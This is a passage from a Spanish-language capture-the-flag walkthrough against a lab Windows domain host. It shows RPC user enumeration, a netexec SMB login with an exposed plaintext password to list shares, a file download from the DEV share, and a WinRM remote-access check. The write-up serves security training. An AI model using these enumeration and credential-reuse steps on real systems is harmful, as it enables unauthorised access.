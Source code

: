 ```
querydispinfo and enumdomusers
```

![access](Imagenes/19.5.png)

Probamos a conectarnos con netexec con el usuario y la credencial expuesta:

```
netexec smb 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
```

![access](Imagenes/20.png)

Visualizamos el contenido de DEV mediante smbclient y obtenemos lo que haya mediante get:

![access](Imagenes/21.png)

Podemos ver si el usuario tiene permiso de conectarse en remoto:

```
netexec winrm 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```
